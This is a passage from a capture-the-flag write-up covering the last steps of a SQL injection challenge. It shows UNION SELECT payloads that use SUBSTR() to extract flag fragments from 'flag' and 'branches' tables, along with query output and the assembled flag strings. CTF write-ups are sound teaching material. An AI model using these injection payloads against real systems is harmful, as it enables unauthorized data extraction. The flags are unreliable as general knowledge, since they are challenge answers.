 
## Step 9: Using `SUBSTR()` to extract the complete flag

If the flag is truncated, we use `SUBSTR()` to get fragments:

```sql
-1 UNION SELECT 1, SUBSTR(name,7,20), 3 FROM flag --
```

Extracts 20 characters starting at character 7 (after `ETSCTF_`).

```sql
-1 UNION SELECT 1, SUBSTR(name,20,30), 3 FROM flag --
```

Extracts 30 characters starting at position 20.

Concatenating fragments yields:

```
ETSCTF_4b7e39ac882eade2b9ceed5680f0717e
```

---

## Step 10: Final extraction of the flag from the `branches` table

Partial flag visible in `branches` table:

```
Pick a branch id: 1
1
|   id |name                 |  rate |
|    1 |ETSCTF_1b294abeee150 | 52642 |
```

Extract later fragments with:

```sql
-1 UNION SELECT 1, SUBSTR(name,21,40), 3 FROM branches --
```

Result:

```
|   id |name                 |  rate |
|    1 |                     |     3 |
|    1 |89657e009445fea8ebc  |     3 |
```

Concatenate:

```
ETSCTF_1b294abeee15089657e009445fea8ebc
```

---

# Conclusion
